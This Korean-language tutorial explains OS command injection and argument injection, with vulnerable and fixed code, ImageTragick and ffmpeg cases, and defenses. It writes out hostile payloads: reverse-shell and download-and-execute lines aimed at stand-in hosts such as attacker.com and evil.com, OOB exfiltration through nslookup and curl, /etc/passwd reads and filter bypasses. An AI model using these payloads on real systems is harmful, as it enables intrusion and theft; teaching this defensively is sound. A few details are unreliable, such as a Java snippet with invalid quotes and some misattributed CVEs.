


# OS Command Injection

사용자 입력이 OS 셸에 전달되어 임의 명령으로 실행되는 공격이다. SQL Injection이 DB를 노린다면, Command Injection은 서버 자체를 노린다. 한 번 성공하면 RCE(Remote Code Execution)로 직결되기 때문에 CVSS 점수가 거의 항상 9점 이상이다.

가장 골치 아픈 점은 개발자가 의도적으로 셸을 호출하는 경우보다, 라이브러리 내부에서 몰래 셸을 호출하는 경우가 더 많다는 것이다. 이미지 변환, PDF 생성, 파일 압축, 동영상 처리 코드는 거의 다 내부에서 외부 바이너리를 fork+exec한다. 이 과정에서 인자 한 줄이 셸을 거쳐 가면 그 순간부터 공격 표면이 된다.

---

## 공격이 성립하는 근본 원인

```python
# 흔한 잘못된 코드 — Python
import os
filename = request.GET['file']
os.system(f"convert {filename} output.png")

# filename = "image.jpg"           →  정상
# filename = "image.jpg; rm -rf /" →  명령 두 개가 실행됨
```

핵심은 두 가지다. 첫째, 사용자 입력이 셸 명령 문자열에 그대로 들어간다. 둘째, 그 문자열을 `/bin/sh -c "..."` 형태로 셸에 넘긴다. 셸은 자기에게 넘어온 문자열을 파싱해서 메타문자를 해석하기 때문에, 입력에 섞인 `;`나 `|`가 명령 구분자로 동작한다.

OS 입장에서는 자기가 받은 명령을 충실히 실행할 뿐이다. 어디까지가 개발자 의도이고 어디부터 공격자 입력인지 구분할 방법이 없다. 이걸 구분해주는 게 `exec` 계열 함수에서 인자를 배열로 분리해서 넘기는 방식, 즉 셸을 거치지 않는 호출이다.

```mermaid
sequenceDiagram
    participant 공격자
    participant 앱
    participant 셸
    participant OS

    공격자->>앱: filename=image.jpg; cat /etc/passwd
    앱->>셸: /bin/sh -c "convert image.jpg; cat /etc/passwd output.png"
    셸->>셸: ; 를 명령 구분자로 파싱
    셸->>OS: convert image.jpg
    OS-->>셸: 종료 코드 0
    셸->>OS: cat /etc/passwd output.png
    OS-->>셸: passwd 파일 내용
    셸-->>앱: stdout
    앱-->>공격자: 응답에 passwd 노출
```

이 다이어그램의 핵심은 "셸이 한 번 끼어든다"는 사실이다. 셸을 빼면 공격이 성립하지 않는다.

---

## 위험한 함수와 안전한 함수

언어마다 셸을 거치는 함수와 거치지 않는 함수가 분리되어 있다. 이걸 구분하지 못하면 방어 자체가 불가능하다.

### Node.js

```javascript
const { exec, execFile, spawn } = require('child_process');

// 위험 — 인자를 셸 문자열로 합쳐서 /bin/sh -c 로 실행한다
exec(`convert ${filename} output.png`, callback);

// 안전 — 셸을 거치지 않고 바이너리에 인자 배열을 직접 넘긴다
execFile('convert', [filename, 'output.png'], callback);

// 안전 — spawn도 기본은 셸 미사용
spawn('convert', [filename, 'output.png']);

// 다시 위험 — spawn에 shell:true 옵션을 주면 exec와 같아진다
spawn('convert', [filename, 'output.png'], { shell: true });
```

`exec`와 `execFile`의 차이를 모르고 쓰는 코드가 정말 많다. 파라미터 시그니처가 비슷해서 IDE 자동완성으로 잘못 고른 코드도 자주 본다. 코드 리뷰 시 `exec(` 호출은 반드시 변수가 들어가는지 봐야 한다.

### Python

```python
import subprocess

# 위험 — shell=True 일 때 첫 인자가 셸 문자열로 처리된다
subprocess.run(f"convert {filename} output.png", shell=True)

# 위험 — os.system은 항상 셸을 거친다
os.system(f"convert {filename} output.png")

# 안전 — shell=False(기본값), 인자를 리스트로 분리
subprocess.run(["convert", filename, "output.png"])

# 안전 — 인자가 배열이지만 shell=True면 다시 위험해진다
subprocess.run(["convert", filename, "output.png"], shell=True)  # 이 경우 filename만 사용되고 나머지는 무시되며 셸로 들어간다
```

마지막 케이스가 특히 함정이다. `shell=True`이면서 인자가 리스트일 때, 파이썬은 첫 번째 요소만 셸에 넘기고 나머지는 셸의 `$0`, `$1` 위치 인자로 들어간다. 의도와 전혀 다른 동작이지만 에러가 나지 않아 발견이 늦다.

### Java

```java
// 위험 — Runtime.exec(String)은 내부적으로 공백으로 토큰을 자른다
Runtime.getRuntime().exec("convert " + filename + " output.png");

// 부분 안전 — 토큰을 직접 분리해서 넘긴다. 셸은 거치지 않음
Runtime.getRuntime().exec(new String[]{"convert", filename, "output.png"});

// 권장 — ProcessBuilder
new ProcessBuilder("convert", filename, "output.png").start();
```

Java의 `Runtime.exec(String)`은 셸을 직접 호출하지는 않지만 `StringTokenizer`로 공백 기준 분리를 한다. 즉 `filename`에 공백이 들어가면 그 뒤가 별도 인자로 처리되어 인자 인젝션이 가능하다. 셸 메타문자 인젝션은 막혀도 인자 인젝션은 못 막는다는 뜻이다.

### PHP

```php
// 위험 — 모두 셸을 거친다
system("convert $filename output.png");
exec("convert $filename output.png");
shell_exec("convert $filename output.png");
passthru("convert $filename output.png");
$output = `convert $filename output.png`;  // 백틱 연산자도 마찬가지

// 그나마 안전 — 인자 단위로 escapeshellarg를 거쳐야 함
$cmd = "convert " . escapeshellarg($filename) . " output.png";
exec($cmd);

// 더 안전 — proc_open + 파이프 디스크립터 직접 제어
```

PHP는 백틱 문자열 자체가 셸 실행 연산자라 한 번에 알아보기 어렵다. 코드 리뷰 시 `` ` `` 문자가 변수와 함께 있는 패턴을 grep해야 한다.

---

## 메타문자 페이로드 패턴

셸이 해석하는 메타문자를 알면 공격자가 무엇을 시도하는지 보인다. 방어 코드를 작성할 때도 이 목록을 기준으로 검증한다.

| 메타문자 | 의미 | 페이로드 예시 |
|---|---|---|
| `;` | 명령 순차 실행 | `image.jpg; cat /etc/passwd` |
| `&&` | 앞 명령 성공 시 다음 실행 | `image.jpg && id` |
| `\|\|` | 앞 명령 실패 시 다음 실행 | `nonexistent \|\| whoami` |
| `\|` | 파이프 (앞 출력 → 뒤 입력) | `image.jpg \| nc attacker.com 4444` |
| `&` | 백그라운드 실행 | `image.jpg & curl evil.com/$(id)` |
| `` `cmd` `` | 명령 치환 (구식) | `` image`whoami`.jpg `` |
| `$(cmd)` | 명령 치환 (현대) | `image$(whoami).jpg` |
| `<(cmd)` | 프로세스 치환 | `<(curl evil.com/sh)` |
| `>` `>>` | 출력 리다이렉트 | `image.jpg > /etc/cron.d/x` |
| `\n` | 명령 줄바꿈 | `image.jpg\ncat /etc/passwd` |
| `${IFS}` | 공백 우회 | `cat${IFS}/etc/passwd` |

실무에서 자주 보는 우회 기법은 다음 두 가지다. 첫째, 공백을 `${IFS}`로 치환해서 단순 공백 차단을 우회한다. 둘째, 백슬래시로 메타문자를 끊어서 정규식 차단을 회피한다(`c\at /etc/passwd`).

```bash
# 공백 차단을 우회하는 페이로드
{cat,/etc/passwd}
cat$IFS/etc/passwd
cat<<<$(cat /etc/passwd)

# 점이나 슬래시 차단을 우회
/???/p?sswd          # 글로빙
$(printf '\x2fetc\x2fpasswd')  # 16진수 인코딩
```

이런 우회를 일일이 막으려고 블록리스트를 쌓는 건 의미가 없다. 셸 자체를 호출하지 않는 게 유일한 정답이다.

---

## 파일 업로드 + 명령 인젝션 콤보

가장 자주 발생하는 실전 시나리오다. 단독 명령 인젝션보다 파일 업로드와 결합된 형태가 훨씬 흔하다.



업로드 시점에는 인젝션이 일어나지 않는다. 문제는 업로드된 파일을 후처리할 때다. 가장 위험한 후처리 로직은 다음과 같다.

```python
# 사용자가 업로드한 파일명: "; curl evil.com/sh | sh ;.jpg"
def make_thumbnail(uploaded_filename):
    cmd = f"convert /uploads/{uploaded_filename} /thumbs/thumb.png"
    os.system(cmd)
```

업로드 단계에서 파일명 검증을 안 하고 사용자 입력을 그대로 저장하면, 후처리에서 그 파일명이 명령줄에 들어간다. 

방어할 때는 두 단계에서 모두 막아야 한다. 업로드 시점에 파일명을 UUID나 해시로 강제 변경하고, 후처리 시점에는 셸을 거치지 않는 호출을 사용한다. 둘 중 하나만 막는 건 다른 한쪽이 뚫리면 의미가 없다.

---

## 이미지/미디어 라이브러리 인자 인젝션

ImageMagick, ffmpeg, ghostscript 같은 미디어 변환 도구는 인자 자체에 위험한 기능이 들어 있다. 셸 메타문자를 모두 막아도, 인자로 전달되는 값에 `-` 시작 옵션이 들어가면 그게 새 옵션으로 해석된다. 이걸 인자 인젝션(argument injection)이라고 한다.

### ImageMagick — ImageTragick (CVE-2016-3714)

2016년에 터진 ImageTragick은 이 분야의 교과서 사례다. ImageMagick의 `convert`가 MVG와 SVG 포맷을 지원하는데, 이 포맷 안에 `url()` 지시어로 외부 자원을 참조할 수 있다. ImageMagick이 이 URL을 처리할 때 내부적으로 셸을 호출했다.

```
# 악성 SVG 파일 내용
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|ls "-la)'
pop graphic-context
```

이 파일을 업로드하고 `convert input.svg output.png`을 실행하면, ImageMagick이 URL을 가져오는 과정에서 따옴표 escape 처리를 잘못해 `ls -la`가 셸에서 실행됐다. 영향받은 서비스가 어마어마했다. Facebook, Slack, HackerOne 모두 보고를 받았고, 패치가 나오기 전까지 임시 조치로 ImageMagick의 `policy.xml`에서 MVG, MSL, HTTPS, URL 코더를 disable하라는 권고가 나왔다.

당시 본 적 있는 공격 코드는 외부 서버에 리버스 셸을 받는 형태였다.

```
fill 'url(https://attacker.com/x.jpg"|curl http://attacker.com/sh|bash;")'
```

이 사고 이후로 운영 중인 ImageMagick은 반드시 `/etc/ImageMagick-*/policy.xml`을 점검해야 한다.

```xml
<policymap>
  <policy domain="coder" rights="none" pattern="MVG" />
  <policy domain="coder" rights="none" pattern="MSL" />
  <policy domain="coder" rights="none" pattern="HTTPS" />
  <policy domain="coder" rights="none" pattern="URL" />
  <policy domain="coder" rights="none" pattern="EPHEMERAL" />
  <policy domain="coder" rights="none" pattern="LABEL" />
</policymap>
```

비슷한 사고가 이후로도 반복됐다. 2020년 GhostScript 관련 PostScript 코드 실행, 2022년 ImageMagick 7.x의 SVG 처리 우회 등이 같은 계열이다.

### ffmpeg 인자 인젝션

ffmpeg은 입력 파일명에 `-` 로 시작하는 문자열이 오면 그걸 옵션으로 해석한다.

```bash
# 사용자가 업로드한 파일명: "-i /etc/passwd"
ffmpeg -i "$user_input" output.mp4
# 실제 실행: ffmpeg -i -i /etc/passwd output.mp4
```

ffmpeg에는 임의 파일을 읽어서 출력 미디어에 자막이나 필터로 끼워 넣는 기능이 있다. 이 기능과 인자 인젝션이 결합되면 서버 파일 시스템의 임의 파일을 영상 안에 인코딩해서 빼낼 수 있다. SSRF로도 발전 가능하다.

방어법은 사용자 입력 앞에 `--`를 붙여서 옵션 종료를 명시하거나, 파일명이 `-`로 시작하면 거부하는 것이다.

```bash
# 옵션 종료 마커 사용
ffmpeg -i "./$user_input" output.mp4   # 더 안전: 상대 경로 prefix
```

상대 경로 prefix(`./`)를 붙이는 건 의외로 잘 알려지지 않은 방어책인데, `-`로 시작하지 않게 만들기 때문에 인자 인젝션을 끊어버린다.

---

## Blind 명령 인젝션 탐지

명령 결과가 응답에 노출되지 않는 환경에서는 결과를 직접 볼 수 없다. 이때 쓰는 두 가지 기법이 시간 지연과 외부 콜백이다.

### 시간 지연 기반 탐지

```bash
# 7초 정확히 지연되면 인젝션 확정
input=$(sleep 7)
input=`sleep 7`
input=; sleep 7;
input=&& sleep 7
input=| sleep 7
```

원래 응답이 200ms인데 페이로드 주입 시 7초가 걸리면 명령이 실행됐다는 뜻이다. 다만 네트워크 지연이나 캐시로 오탐이 발생할 수 있어, 보통 3초·5초·7초처럼 식별 가능한 값을 여러 번 보내서 패턴을 확인한다.

### Out-of-Band(OOB) 콜백

시간 지연보다 신뢰도 높은 방법이다. 공격자 통제 도메인으로 DNS 조회나 HTTP 요청을 발생시킨다.

```bash
# DNS 콜백 — nslookup이 거의 모든 시스템에 깔려 있다
input=; nslookup unique-id.attacker-collab.net
input=$(nslookup $(whoami).attacker-collab.net)

# HTTP 콜백 — 명령 실행 결과를 호스트명에 인코딩
input=`curl http://$(hostname).attacker.com/`
input=`wget http://attacker.com/$(whoami)`
```

`nslookup`을 쓰는 이유는 인터넷에 접속을 못하는 내부 서버라도 DNS 쿼리는 풀어주는 환경이 많기 때문이다. 회사 내부 네트워크의 DNS는 외부 도메인 쿼리를 외부로 위임하는 게 일반적이라, 80/443이 막혀 있어도 53번을 통해 데이터가 빠져나간다.

Burp Collaborator나 interactsh 같은 도구가 이 OOB 인터랙션을 받아주는 서비스를 제공한다. 도메인 하나를 발급받고 페이로드에 박은 뒤, 콘솔에서 인바운드 DNS/HTTP 요청을 확인하는 방식이다.



이 패턴의 무서운 점은 응답에 아무것도 노출되지 않아도 명령 결과를 함께 빼낼 수 있다는 것이다.

---

## 방어 방법

순서대로 적용한다. 위쪽일수록 효과가 크다.

### 1. 셸을 호출하지 않는다

이게 본질이다. 다른 모든 방어는 보조 수단이다.

```javascript
// Node.js — execFile, spawn 모두 기본은 셸 미사용
execFile('convert', [filename, 'output.png']);
spawn('convert', [filename, 'output.png']);

// Python — shell=False 가 기본값
subprocess.run(['convert', filename, 'output.png'])

// Java — ProcessBuilder
new ProcessBuilder('convert', filename, 'output.png').start();
```

### 2. 외부 명령을 아예 호출하지 않는다

가능한 경우 라이브러리 바인딩으로 대체한다. 이미지 처리는 sharp(Node.js), Pillow(Python), Thumbnailator(Java) 같은 네이티브 바인딩 라이브러리를 쓰면 ImageMagick 자체를 띄우지 않아도 된다. 외부 프로세스 호출이 사라지면 명령 인젝션도 사라진다.

### 3. 인자에 들어갈 값은 allowlist로 제한

자유 입력을 그대로 인자로 넘기지 말고, 허용된 값만 통과시킨다.

```python
ALLOWED_FORMATS = {'png', 'jpg', 'webp'}

def convert(input_path, target_format):
    if target_format not in ALLOWED_FORMATS:
        raise ValueError("Unsupported format")
    subprocess.run(['convert', input_path, f'output.{target_format}'])
```

블록리스트(금지 문자 목록)는 거의 항상 우회된다. 새로운 메타문자, 인코딩 트릭, 유니코드 변형이 끊임없이 나오기 때문이다. allowlist는 허용된 것만 통과시키므로 우회가 원천 차단된다.

### 4. 인자 앞에 `--` 또는 경로 prefix를 붙인다

인자 인젝션 방어책이다. 사용자 입력이 옵션처럼 해석되는 걸 막는다.

```python
subprocess.run(['ffmpeg', '-i', '--', user_input, 'output.mp4'])
# 또는
subprocess.run(['ffmpeg', '-i', f'./{user_input}', 'output.mp4'])
```

`--`는 GNU 컨벤션으로 "이 뒤로는 옵션이 아니다"를 의미한다. 모든 도구가 지원하지는 않으니 도구 매뉴얼을 확인해야 한다.

### 5. 최소 권한으로 실행

명령 인젝션이 뚫리는 걸 0%로 만들 수는 없으니, 뚫렸을 때 피해를 줄이는 게 다음 방어선이다. 컨테이너로 격리하고, 컨테이너 안에서도 비-root 사용자로 실행한다. seccomp 프로필로 시스템 콜을 제한하면 리버스 셸이 막힐 수 있다.

```dockerfile
FROM alpine:3.19
RUN adduser -D -u 1000 worker
USER worker
ENTRYPOINT ["/usr/bin/convert"]
```

### 6. 미디어 라이브러리 정책 강화

ImageMagick은 `policy.xml`에서 위험 코더를 disable한다. ffmpeg은 `-protocol_whitelist`로 허용 프로토콜을 제한한다. 이 설정이 빠진 운영 서버는 ImageTragick 류 사고에 그대로 노출된다.

---

## 사고 사례에서 배우는 것

ImageTragick 외에도 같은 계열 사고가 반복적으로 발생했다. 패턴을 보면 거의 똑같다.

- **CVE-2014-6271 Shellshock**: bash 환경 변수를 통한 코드 실행. CGI 스크립트가 사용자 입력을 환경 변수로 넘기는 과정에서 트리거. 명령 인젝션의 변형이다.
- **CVE-2017-12794 Django**: 디버그 페이지 렌더링 중 외부 명령 호출 경로에서 인젝션 가능성.
- **CVE-2021-22204 ExifTool**: 이미지 메타데이터 처리 중 Perl 스크립트 실행. GitLab이 이걸로 RCE를 당했다.
- **CVE-2022-44268 ImageMagick**: PNG 메타데이터 처리에서 임의 파일 읽기. RCE는 아니지만 같은 라이브러리 계열.
- **CVE-2023-44487 / 보안 패치 사례들**: 미디어 변환 컨테이너의 sandboxing 강화 흐름.

공통점은 두 가지다. 첫째, 사용자 입력이 외부 바이너리 인자나 외부 자원 참조로 흘러들어간다. 둘째, 그 바이너리 내부에 코드 실행 경로가 숨어 있다. 직접 셸을 부르지 않아도 라이브러리가 대신 부른다는 게 핵심이다.

운영하는 코드에 외부 바이너리 호출이 있다면 다음을 확인한다. 어떤 함수로 호출하는지(셸 경유 여부), 인자에 사용자 입력이 들어가는지, 그 바이너리가 처리하는 파일 포맷에 코드 실행 경로가 있는지. 세 가지 중 하나라도 위험 신호가 보이면 라이브러리 자체를 점검한다.

---

## 코드 리뷰 시 확인 포인트

리뷰 시점에 잡으려면 다음 패턴을 grep한다. 정규식이라기보다 키워드 수준이다.

- `exec(`, `system(`, `shell_exec(`, `popen(` — 변수가 들어 있으면 의심
- `Runtime.getRuntime().exec(` — String 한 개짜리 시그니처는 거의 항상 위험
- `child_process.exec(` — `execFile`로 바꿀 수 있는지 확인
- `subprocess.run(...shell=True` — shell=True 자체가 레드 플래그
- 백틱(`` ` ``)이 변수와 함께 있는 PHP 코드
- `os.system`, `os.popen` 호출 전부

전체 코드베이스에 한 번이라도 위 패턴이 나타나면 그 모든 호출을 따라가서 입력 출처를 추적한다. 사용자 입력이 도달 가능하면 인자 분리(`exec → execFile`)로 리팩토링한다. 호출 함수를 바꾸는 건 보통 한두 줄 수정이라 비용이 적다.
